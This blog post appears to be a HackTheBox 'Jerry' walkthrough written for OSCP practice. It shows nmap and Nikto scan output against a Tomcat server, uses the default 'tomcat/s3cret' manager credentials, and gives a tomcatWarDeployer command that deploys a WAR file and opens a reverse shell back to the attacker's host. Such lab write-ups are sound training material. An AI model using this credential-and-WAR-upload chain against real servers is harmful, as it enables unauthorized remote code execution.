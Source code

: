 ```yaml
---
layout: post
title: HackTheBox Jerry Writeup - OSCP Practice 
categories: [security, hackthebox, oscp-writeups, thursday-snack]
tags: [security, hackthebox, oscp]
description: A comprehensive writeup on HackTheBox Jerry VM which helps learn and practice for OSCP.
comments: true
---
```



### Quick Overview

[Jerry](https://app.hackthebox.com/machines/144) is one of the Windows Box from [TJNull OSCP Practice list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). It's one of those quite easy machine where you get initial foothold & privilege escalation in a single hop.

![Jerry VM - HacktheBox Logo](/assets/media/htb-jerry-logo.jpg)

### Enumeration

#### NMapAutomator

Started with enumerating the target with [`NMapAutomator`](https://github.com/21y4d/nmapAutomator) script since it helps in automating all possible ports with vulnerability scripts from `nmap`. Additionally, `NmapAutomator` can help in recon process using `ffuf`, `nikto`, `DNSRecon`, `SMB` enumeration.

```bash
kali $ sudo nmapAutomator.sh -H $IP --type All
Running all scans on jerry.htb with IP 3(NXDOMAIN)
No ping detected.. Will not use ping scans!
Host is likely running Unknown OS!
---------------------Starting Port Scan-----------------------
PORT     STATE SERVICE
8080/tcp open  http-proxy
---------------------Starting Script Scan-----------------------
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

---------------------Starting Full Scan------------------------
PORT     STATE SERVICE
8080/tcp open  http-proxy
No new ports
```

#### Nikto Scan 

```
---------------------Running Recon Commands--------------------
Starting nikto scan                                                                                                    
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.136.9
+ Target Hostname:    jerry.htb
+ Target Port:        8080
+ Start Time:         2023-02-26 17:43:42 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7890 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2023-02-26 17:46:58 (GMT-5) (196 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
Finished nikto scan
```

#### Suspect 1

If you're familiar with Apache Tomcat and Java (JSP) based development, You'll certainly create a reverse shell out of this `Tomcat Manager` exposed in port `8080` with zero assistance from tooling. After checking the Nikto results, looks like `Tomcat Manager` has been exposed and it has few passwords in <TOMCAT_HOME>/conf/tomcat-users.xml. While trying to perform login, the error page actually exposes the password.

![Hackthebox - Jerry VM - Tomcat Manager Password exposure](/assets/media/htb-jerry-enumeration-2.png)

After consuming the password of `tomcat` user as `s3cret`, We're now able to manage, upload, destroy `JSP` based application via Tomcat Manager. This clearly shows a way to perform `Code execution` via uploading JSP War File. 

![Hackthebox - Jerry VM - Tomcat Manager](/assets/media/htb-jerry-tomcat-manager.png)

### Local Shell

Upon scrolling down in the same `Tomcat Manager` page, you may find an option to upload and deploy `war` file. This is where [`TomcatWarDeployer`](https://github.com/mgeeky/tomcatWarDeployer) comes useful. The only caveat was latest python 3.10 wasn't working with the script. I had to do bunch of changes as like `decode('utf-8')` & `encode()` between `str` and `byte` datastructure. This TomcatWarDeployer authenticate with `tomcat` user credentials and upload `jsp_app` and spawns a `reverse shell` in the same terminal.

```shell
kali $ python tomcatWarDeployer.py -U tomcat -P s3cret -H LHOST -p 443 jerry.htb:8080
```

![Hackthebox - Jerry VM - Local Shell](/assets/media/htb-jerry-local-shell.png)

### Privilege Escalation

If you take a closer look at the `whoami` result `nt authority\system` which is already system admin level permission in Windows. You can grab your flags from Administrator\Desktop\flags directory. You can actually find couple of flags in `2 for the price of 1.txt` file.

```powershell
C:\apache-tomcat-7.0.88> cd flags                                                                                     

C:\Users\Administrator\Desktop\flags>

C:\apache-tomcat-7.0.88> dir                                                                                          
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,015,680 bytes free
```

![HackTheBox - Shivasurya.me](/assets/media/htb-sherlock.webp)

### Closing Note:

I hope this post is helpful for folks preparing for Offensive Security Certified Professional certification exam. For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
